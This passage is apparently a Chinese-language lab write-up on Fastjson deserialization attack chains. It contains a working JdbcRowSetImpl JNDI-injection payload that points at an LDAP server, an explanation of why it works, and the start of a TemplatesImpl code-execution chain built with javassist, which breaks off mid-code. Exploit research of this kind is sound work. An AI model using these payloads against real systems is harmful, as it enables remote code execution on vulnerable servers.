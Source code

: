 ```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
public class JdbcRowTest {
    public static void main(String[] args) throws Exception {
// {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/n6vwxw","autoCommit":false}
        JSON.parse("{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1389/n6vwxw\"," +
                "\"autoCommit\":false}");
    }
}
```

![image-20250310195814860](./assets/image-20250310195814860.png)

为什么可以攻击成功？

1. @type指定目标类为：`com.sun.rowset.JdbcRowSetImpl`
2. 先设置了`dataSourceName`字段为`ldap://127.0.0.1:1389/n6vwxw`，触发`setDataSourceName`方法
3. 设置`autoCommit`的值，使得触发`setAutoCommit`方法，又因`dataSourceName`此时不为空触发`connect()`方法，从而导致JNDI注入

### TemplatesImpl

这条链非常简单也非常好用，攻击链详情参考我的这篇文章：[详解TemplatesImpl](../详解TemplatesImpl/main.md)

主要就是利用@type将其改为`JDBCRowSetImpl`，构造`TemplatesImpl`中的字段，然后通过触发`getOutputPropertis`方法来任意代码执行，代码如下：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;

public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        CtClass evil = classPool.makeClass("Pwner");
        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);
        String className = "Erosion-" + System.nanoTime();
        evil.setName(className);
```